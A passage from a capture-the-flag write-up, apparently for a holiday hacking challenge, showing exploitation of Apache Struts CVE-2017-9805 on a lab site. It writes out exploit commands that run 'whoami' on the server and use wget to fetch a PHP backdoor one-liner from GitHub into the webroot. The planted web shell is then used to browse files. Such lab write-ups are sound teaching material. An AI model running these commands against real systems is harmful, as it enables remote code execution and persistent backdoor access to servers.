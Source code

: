 Interestingly enough, in the URL parameter we see that the example points to a server with an ending of "__orders.xhtml__"! Which is the same page we were redirected to when navigating to the dev page "https://dev.northpolechristmastown.com". 

Let's see if the script works by trying to execute the `whoami` command and piping the output it a file called "test.txt" which will be saved in the __/var/www/html__ directory.

```console
root@kali:~# python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "whoami > /var/www/html/test.txt"
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
```

We see that the exploit executed without any issues. So from here, let's navigate to http://l2s.northpolechristmastown.com/test.txt and see if we indeed were able to exploit Apache Struts.

<a href="https://jhalon.github.io/images/shh13.png"><img src="https://jhalon.github.io/images/shh13.png"></a>

Nice, we are able to execute commands on the server! At this point I wanted to get a PHP Shell onto the server, so I opted to use this following simple one line PHP Script found on GitHub - https://gist.github.com/sente/4dbb2b7bdda2647ba80b.

From here, I executed the following command to download the RAW PHP shell to the server and save it as __kkb\_shell.php__.

```console
root@kali:~# python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "wget https://gist.githubusercontent.com/sente/4dbb2b7bdda2647ba80b/raw/31218294e74361df73215b44a219af3b95945618/Simple-Backdoor-One-Liner.php -O /var/www/html/kkb_shell.php"
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
```

Okay, so the command executed successfully. Let's test the PHP shell by trying to execute the `ls -la` command to list all the files in the current working directory.

<a href="https://jhalon.github.io/images/shh14.png"><img src="https://jhalon.github.io/images/shh14.png"></a>

Perfect! So we can execute commands via the PHP shell. At this point, we see that the second page of the Great Book is located in the web directory. 

Simply navigating to http://l2s.northpolechristmastown.com/GreatBookPage2.pdf will allow us to see and download Page 2.

<a href="https://jhalon.github.io/images/shh17.png"><img src="https://jhalon.github.io/images/shh17.png"></a>

Now that we got the 2nd page of the Great Book, we have to find Alabaster Snowballs password.
